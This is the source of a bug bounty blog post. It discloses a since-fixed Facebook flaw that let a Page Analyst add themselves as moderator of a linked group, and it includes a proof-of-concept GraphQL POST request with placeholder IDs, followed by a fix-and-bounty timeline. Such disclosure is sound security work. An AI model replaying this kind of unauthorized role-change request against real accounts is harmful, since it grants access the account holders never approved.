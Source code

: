```yaml
---
layout: post
title: Facebook PageAnalyst Could Add oneself as Moderator on Group
categories: articles
---
```


## Description

&nbsp;&nbsp;&nbsp;There is a call to add member as the moderator on a group. The call at the time didn’t seem to have any authorisation checks to page roles. A page analyst was possible to add oneself as a moderator on a linked group.

## Proof of Concept

{% highlight javascript %}
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID

query_params={"0":{"user_id":"UserID","admin_type":"MODERATOR","actor_id":"PageID","client_mutation_id":"","source":"treehouse_group_mall","group_id":"GroupID"}}

{% endhighlight %}

## Timeline

- Dec 19, 2018 - Report Sent
- Dec 22, 2018 - Further investigation by Facebook
- Jan 9, 2019 - Fixed by Facebook
- Jan 11, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/1_BJu-nLFoM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>